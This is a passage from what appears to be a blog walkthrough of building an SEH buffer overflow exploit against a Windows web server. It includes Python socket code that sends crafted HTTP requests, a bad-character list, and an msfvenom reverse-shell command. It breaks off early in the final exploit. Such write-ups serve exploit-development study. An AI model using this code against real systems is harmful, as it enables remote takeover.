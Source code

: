 ```python

crash = "A" * 4061
crash += nseh
crash += seh
crash += "D" * (5000 - len(crash))
'''

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x21\x22\x23\x24\x26\x27\x28\x29\x2a\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash = 'A' * 4500
crash += badchars
crash += 'D' * (5000 - len(crash))


buffer="GET "
buffer+=crash
buffer+=" HTTP/1.1\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()
```

I ended up determining that badcharacters for this particular application were: `\x00\x20\x25\x2b\x2f\x5c`

## End Game

At this point, I was feeling pretty confident that our shellcode could now be generated and used the following msfvenom command: `msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.1.208 LPORT=443 -f c -b '\x00\x20\x25\x2b\x2f\x5c'`

Our final exploit code now looks like this:
```python
import socket
import os
import sys

ip = "192.168.1.201"
port = 80

#Net Jump
nseh = "\x74\x06\x75\x04"

#POP POP RET 0x1001ab99
seh = '\x99\xab\x01\x10'

```